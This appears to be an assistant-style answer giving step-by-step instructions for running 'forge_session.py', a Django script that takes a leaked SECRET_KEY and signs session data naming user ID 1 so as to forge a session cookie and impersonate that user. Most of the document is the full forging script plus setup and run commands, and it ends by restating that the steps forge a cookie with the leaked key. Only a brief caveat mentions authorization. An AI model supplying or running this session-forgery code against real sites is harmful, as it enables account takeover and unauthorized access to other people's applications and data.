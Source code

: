 To run the script that signs session data, you can place it in any folder that has access to your Django environment and dependencies. Here are the steps to properly run the script:

### Steps to Run the Script

1. **Ensure Django Environment**:
   - Make sure you have a working Django environment with all dependencies installed. This includes Django and any other required packages.

2. **Place the Script**:
   - You can place the script in any directory, but for convenience and to keep things organized, it’s a good idea to place it within your Django project directory.

3. **Create the Script File**:
   - Create a new Python file in your Django project directory. For example, you can name it `forge_session.py`.

4. **Activate Virtual Environment**:
   - If you are using a virtual environment, activate it. This ensures that the script runs with the correct dependencies.

   ```bash
   source path/to/your/virtualenv/bin/activate
   ```

5. **Run the Script**:
   - Navigate to the directory where the script is located and run it using Python.

   ```bash
   cd path/to/your/django/project
   python forge_session.py
   ```

### Example Directory Structure

Here’s an example of how your project directory might look:

```
my_django_project/
├── manage.py
├── my_django_project/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
├── app_name/
│   ├── __init__.py
│   ├── admin.py
│   ├── apps.py
│   ├── models.py
│   ├── views.py
│   └── ...
├── forge_session.py  # <- Place your script here
└── ...
```

### Content of `forge_session.py`

Here’s the full content of the `forge_session.py` script:

```python
import json
import base64
from django.core.signing import Signer

# The SECRET_KEY from the leaked settings
SECRET_KEY = 'your-leaked-secret-key'

# Sample session data
session_data = {
    '_auth_user_id': '1',  # ID of the user to impersonate
    '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
}

# Serialize and sign the session data
session_data_json = json.dumps(session_data)
session_data_encoded = base64.b64encode(session_data_json.encode()).decode()
signer = Signer(key=SECRET_KEY)
signed_session_data = signer.sign(session_data_encoded)

print(f'Session Cookie: {signed_session_data}')
```

### Running the Script

1. **Navigate to the Project Directory**:
   ```bash
   cd path/to/your/django/project
   ```

2. **Run the Script**:
   ```bash
   python forge_session.py
   ```

### Important Notes

- **Security**: Running this script poses a significant security risk. Ensure that you understand the implications and that you have authorization to perform such actions.
- **Environment**: Make sure your environment variables and settings are correctly configured to avoid any unintended consequences.
- **Dependencies**: Ensure that all necessary dependencies, especially Django, are installed in your environment.

By following these steps, you can run the script to forge a session cookie using the leaked `SECRET_KEY`.
